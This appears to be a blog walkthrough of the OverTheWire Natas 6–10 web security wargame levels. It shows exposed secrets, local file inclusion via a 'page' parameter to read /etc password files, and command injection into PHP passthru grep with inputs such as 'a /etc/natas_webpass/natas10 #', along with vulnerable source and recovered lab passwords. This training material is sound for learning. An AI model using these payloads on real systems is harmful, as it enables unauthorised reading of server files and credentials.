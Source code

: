 ```yaml
---
layout: post
title: "OverTheWire: Natas 6-10"
date: 2016-10-30 12:00:00
share: true
comments: true
---
```


_Many challenges from now on will show you the source code behind it.Some of these implementations are quite similar to what is actually used in production, so it's both valuable to know how they work as well as how you can exploit them._


## Natas 6

In this level you need to submit a secret password, going through the source code you'll realize it's stored in [includes/secret.inc]( http://natas6.natas.labs.overthewire.org/includes/secret.inc).
But why is it shown as blank? Check the source code, you'll realize it's stored in PHP tags.

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the secret keyword in the form will reveal our next password.

![7]({{ site.baseurl}}/images/7.png)

___________________________________________

## Natas 7

2 pages beside the index page exist, `Home` and `About`. They don't seem
to be particularly useful but the way the url is constructed [definitely
is](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion). You'll
also notice a hint in both pages in the source code:

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

You may have realized already that this is a `local file inclusion` vulnerability, if not check the OWASP link previously mentioned. LFI is one of many web application vulnerabilities where the parameters are not properly sanitized. The url is in the following format:
```
http://natas7.natas.labs.overthewire.org/index.php?page=filename
```

Code behind it possibly looks like this:

```php
<?php
$file = $_GET['page'];

if(isset($file))
{
    include($file);
}
else
{
    include("index.php");
}
?>
```

A simple request with the full path of the password file will do.

Hitting `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`
will reveal the password.

___________________________________________

## Natas 8

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

```

In this challenge we need to submit a secret pass which should match the string `$encodedSecret`. One approach is to brute force the solution till it works (BAD!), the more obvious one is reversing whatever the `encodedSecret` method does.

Fire up a terminal with PHP installed, let's write the code for the reverse
function:

```console
root@kali:~# php -r '$passKey=base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));echo $passKey;'
oubWYf2kBqr
```

Submitting "oubWYf2kBqr" in the form will reveal the password.

![8]({{ site.baseurl}}/images/8.png)

___________________________________________

## Natas 9

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

[`passthru`](http://php.net/manual/en/function.passthru.php) is one of the PHP functions that allows executing commands along with [`exec`](http://php.net/manual/en/function.exec.php) and [`system`](http://php.net/manual/en/function.system.php). Try entering any
character and you'll notice it's just grepping it from a dictionary.txt file.

As we know from earlier, passwords are in `/etc/natas_webpass/natasX`, where X is the level number. So we want it to run grep against `/etc/natas_webpass/natas10`. How do we make this command behave the way we want it to? By code injection.

Using the pound symbol # allows us to terminate a bash command, example below:

```console
root@kali:~/Documents# ls
emptyfile
root@kali:~/Documents# whoami
root
root@kali:~/Documents# ls # whoami
emptyfile
root@kali:~/Documents# whoami # ls
root
```

By sending a random character (hoping it's in the password) followed by the file we want to read and a pound key will do.

Input: `a /etc/natas_webpass/natas10 #`

___________________________________________

## Natas 10

This challenge is quite similar to Natas 9, except that we can't use many
special characters.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Fortunately, our same exact approach works in this example too.

1. **Input**: `a /etc/natas_webpass/natas11 #`
**Output**: _empty_

2. **Input**: `b /etc/natas_webpass/natas11 #`
**Output**: _empty_

3. **Input**: `c /etc/natas_webpass/natas11 #`
**Output**: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Sweet, the password is `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`.